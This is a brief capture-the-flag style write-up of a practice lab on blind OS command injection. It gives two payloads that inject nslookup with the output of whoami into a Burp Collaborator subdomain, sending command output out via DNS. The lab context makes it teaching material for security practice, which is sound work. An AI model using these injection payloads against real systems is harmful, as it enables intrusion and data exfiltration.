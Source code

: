 # Lab  5 - Blind OS command injection with out-of-band data exfiltration (Running commands like whoami)

`To solve the lab, execute the `whoami` command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab.`


### Solution - 

Same process as above but add this payload

- ` & nslookup `whoami`.zorh37nyfzjbsg1nog7j9m16zx5ntc.burpcollaborator.net # `

                                      or 

-  ` & nslookup $(whoami).zorh37nyfzjbsg1nog7j9m16zx5ntc.burpcollaborator.net # `

We get the username in the details panel - `peter-iQRvf5`

![image](https://user-images.githubusercontent.com/67383098/225319008-28f90fcf-53d6-4237-b84d-bcd563b8a882.png)





